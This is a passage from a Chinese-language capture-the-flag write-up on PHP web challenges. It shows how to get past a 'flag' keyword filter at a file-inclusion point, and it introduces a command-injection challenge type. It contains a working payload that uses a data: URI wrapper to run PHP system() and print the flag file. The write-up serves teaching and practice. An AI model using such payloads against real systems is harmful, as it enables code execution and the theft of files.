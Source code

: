 ![image-20231216120352629](image/image-20231216120352629.png)

过滤flag, 但是文件包含处拼接了.php

38可以接着用

```
/?c=data:text/plain,<?=system("tac fla*");?>
```

![image-20231216120133499](image/image-20231216120133499.png)

得到flag

------

<div style="page-break-after:always"></div>

### 类型三

接受并过滤传入的变量拼接命令执行（system函数）和类型一的区别是题目中已经给了sysytem函数

![image-20231216125607107](image/image-20231216125607107.png)

就不需要我们重新构建了

#### web42
